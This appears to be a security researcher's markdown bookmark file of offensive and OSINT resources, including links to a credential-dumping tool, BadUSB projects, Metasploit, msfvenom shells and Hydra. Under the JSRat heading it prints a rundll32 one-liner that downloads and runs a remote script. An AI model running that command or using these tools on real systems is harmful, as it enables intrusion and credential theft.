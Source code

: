 # Wireless IDS [Intrusion Detection System]
Ability to detect suspicious activity such as (WEP/WPA/WPS) attack by sniffing the air for wireless packets. https://github.com/SYWorks/wireless-ids

# OSINT Framework
http://osintframework.com/

# SpiderFoot 2.12 - Automates OSINT to find out everything possible about your target
https://www.kitploit.com/2018/03/spiderfoot-212-automates-osint-to-find.html

# Pliego Sistema de Registro de Nombres de Pasajeros
https://www.ecestaticos.com/file/c53a91545ca895eb95215b5e6a1108fd/1469191837.pdf

# Ofuscación
https://twitter.com/404death/status/968116331479314434

# mimikittenz
- mimikittenz is a post-exploitation powershell tool that utilizes the Windows function ReadProcessMemory() in order to extract plain-text passwords from various target processes.
- mimikittenz can also easily extract other kinds of juicy info from target processes using regex patterns.

https://github.com/putterpanda/mimikittenz

# Pwned Passwords
https://haveibeenpwned.com/Passwords

# Javascript-Backdoor(JSRat)
```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https://raw.githubusercontent.com/3gstudent/Javascript-Backdoor/master/test")
```

# BadUSB
- https://thehackerway.com/2017/07/10/badusb-ultra-low-cost/
- https://github.com/ernesto-xload/DigisparkKeyboard
- https://github.com/ernesto-xload/arduino_keyboardlib
- https://github.com/ernesto-xload/DigisparkKeyboard
- https://github.com/uslurper/digiduck

# Fundamentos de Metasploit #2
https://www.securityhacklabs.net/2018/02/21/fundamentos-de-metasploit-2/

# Spawn TTY Shell using Msfvenom (One Liner Payload)
http://www.hackingarticles.in/spawn-tty-shell-using-msfvenom-one-liner-payload/

# Using Hydra To Crack The Door Open
https://hakin9.org/usinghydratocrackthedooropen/
